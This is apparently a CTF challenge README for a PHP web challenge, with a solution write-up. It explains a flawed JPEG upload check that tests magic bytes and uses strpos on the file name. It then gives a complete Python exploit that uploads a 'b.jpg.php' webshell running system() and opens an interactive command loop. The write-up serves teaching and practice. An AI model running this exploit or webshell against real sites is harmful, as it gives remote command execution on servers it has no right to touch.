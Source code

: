 # The Evil Assignment on Canvas 😈

## 1. Description

Oh noooo, when you're "chilling" with this CTF, your evil professor throws an impossible assignment on Canvas at you, and it's due TOMORROW!

The only way to pass this course is to pwn him!! The show will never end! 

### Guide: 
1. Turn on your Docker instance. 
2. Access: `http://14.225.211.39:$PORT` where `$PORT` is the port number given by the system.
3. pwn!

### Notes
+ The `revert` button only refresh the Docker instance for you, not to be used for deleting the containers.
+ Because of performance-critical reasons, we will shut down all of the containers periodically (2-4 hours). We will put announcement when we nuke all of the containers :)

Author: `@sashaNull`

## 2. Build

```bash
docker build -t evil_assignment_on_canvas . 
```

In order to make it only release 1 port, please use [`docker-copyedit`](https://github.com/gdraheim/docker-copyedit) to remove two required ports 8000 and 433. 

## 3. Solution

> Author: @teebow1e from hust3r

This challenge is a blackbox challenge, however, I will explain this in the white-box perspective since the solution is really straight-forward (if you have experience in File Upload vulnerability).


When access the challenge, we are given an upload form, which only accepts small-sized JPG/JPEG. This is the code checking if we upload a *"good"* file:
```php
<?php                  
    $magic_num_handler = file_get_contents($_FILES['uploadedfile']['tmp_name']);
    if(bin2hex(substr($magic_num_handler, 0, 3)) != "ffd8ff")
    {
            if(isset($_FILES['uploadedfile'])){
        echo "<p>Sorry, your submission is not recognized as a JPEG file by the back-end!</p>";
    }                 
        exit;
    } 

    $fileName = pathinfo($_FILES['uploadedfile']['name'])['basename']; 
    if (strpos($fileName, '.jpg') == false && strpos($fileName, '.jpeg') == false)
    {
            if(isset($_FILES['uploadedfile'])){
        echo "<p>Sorry, your submission is not recognized as a JPEG file by the back-end!</p>";
    }                 
        exit;
    }
```

- First, it checks the [magic byte](https://en.wikipedia.org/wiki/List_of_file_signatures) - the byte determining the file type. In order to bypass this, I just simply grab a legit JPG file on the Internet and submit to the form.

- Next, we have the code checking if `.jpg` or `.jpeg` exists in the filename. This is really dangerous because file name can contain more than 1 dot sign (which seperate the name and extension). Therefore, I can simply write a file named "a.jpg.php" and this is considered *valid* in the server side.
![](assets/strpos%20php.png)

At this point, we got enough ingredients. Let's cook the exploit script:
```python
import requests
import re
from urllib.parse import quote

url = "http://14.225.211.39:51419"

burp0_headers = {
    "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryijBAyAxAcQzDE3Xx"
}
burp0_data = """------WebKitFormBoundaryijBAyAxAcQzDE3Xx\r\nContent-Disposition: form-data; name="MAX_FILE_SIZE"\r\n\r\n100000\r\n------WebKitFormBoundaryijBAyAxAcQzDE3Xx\r\nContent-Disposition: form-data; name="uploadedfile"; filename="b.jpg.php"\r\nContent-Type: image/jpeg\r\n\r\n\xff\xd8\xff\xe0\x00\x10JFIF<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>\r\n------WebKitFormBoundaryijBAyAxAcQzDE3Xx--\r\n"""
r = requests.post(url + "/index.php", headers=burp0_headers, data=burp0_data)
result = r.text
if "File is valid" in result:
    print("[+] Upload webshell complete.")
else:
    print("[!] Something went wrong while uploading webshell.")

while True:
    cmd = quote(input("[?] Command you want to run: "))
    webshell = requests.get(url + f"/uploads/b.jpg.php?cmd={cmd}").text
    result = (
        re.search(r"<pre>(.*?)</pre>", webshell, re.DOTALL).group(1).strip()
        if re.search(r"<pre>(.*?)</pre>", webshell, re.DOTALL)
        else None
    )
    print(result)
```